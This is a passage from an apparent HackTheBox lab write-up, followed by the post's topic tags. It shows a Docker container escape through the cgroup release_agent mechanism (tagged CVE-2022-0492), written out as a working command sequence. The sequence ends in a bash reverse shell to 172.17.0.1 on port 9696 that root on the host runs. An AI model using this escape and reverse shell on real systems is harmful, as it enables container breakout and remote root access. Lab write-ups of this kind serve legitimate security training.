Mounting cgroup has worked, so now I’ll abuse that to escape from docker and make root execute a reverse shell back to hflaccus listening on port 9696:
mkdir /mnt/x
echo 1 > /mnt/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /mnt/release_agent
echo '#!/bin/sh' > /cmd
echo 'bash -c "bash -i >& /dev/tcp/172.17.0.1/9696 0>&1"' >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /mnt/x/cgroup.procs"
HackTheBox Linux Bruteforce Virtual-Host-Enumeration Gobuster Insecure-Direct-Object-Reference Burp-Suite File-Upload Docker Mongodb Mongosh Static-Nmap Full-TTY-Python Port-Forwarding Chisel Zoiper Clear-Text-Credentials Backdrop SSL-Sniffing SSL-Decryption Backdrop-RCE Full-TTY-Script CVE-2022-0492 Docker-Escape
3385 Words
2022-12-02 07:44